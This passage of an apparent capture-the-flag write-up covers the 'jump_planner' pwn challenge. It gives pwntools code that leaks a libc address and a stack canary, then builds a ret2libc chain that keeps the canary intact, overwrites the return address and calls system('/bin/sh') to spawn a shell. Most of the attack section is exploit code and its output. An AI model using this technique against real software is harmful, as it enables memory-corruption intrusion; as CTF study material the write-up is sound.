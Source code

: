```python
io.sendlineafter(b">> ",b"3")
io.sendlineafter(b": ",b"7")
  
io.readuntil(b"to Year ")
libc_leak = int(io.readuntil(b" ",drop=True))
print(hex(libc_leak))
libc.address = libc_leak -0x29d90
print(hex(libc.address))
  
io.interactive()
```

And the result is:
```c
[+] Starting local process '/home/chris/ctfs/battelle/pwn/jump_planner': pid 707613
0x713095fa0ebb800
0x7f0040e3bd90
0x7f0040e12000
[*] Switching to interactive mode
at current location
Current Year: 1088667024
Options:
    1) Add to speed dial
    2) Remove from speed dial
    3) Quick Jump
    4) Manual Jump
    5) List Speed Dial
    6) Exit
>> $  
```

## Buffer Overflow

We can try to abuse the buffer overflow in the manual jump with our leaks to preform a ret2libc. Filling the stack then overwriting the canary with the canary then I needed to skip over one address on the stack with a pop because in the function, the `year` gets written onto the stack below the saved return address (because its a stack var from parent function). When i set the year to `0`  the high half of one of my gadgets is nulled out.

```python
pop_rdi = libc.address+0x000000000002a3e5
io.sendlineafter(b">> ",b"4")
io.sendlineafter(b": ",b"0")
io.sendlineafter(b": ",b"0")
p = b"A"*0x28 # fill stack
p += p64(canary) # keep canary intact
p += b"B"*8 # rbp
p += p64(pop_rdi+1) # extra ret
p += (p64(pop_rdi) +p64(next(libc.search(b"/bin/sh"))))*4
p += p64(libc.symbols['system'])
 
io.sendlineafter(b": ",p)

io.interactive()
```
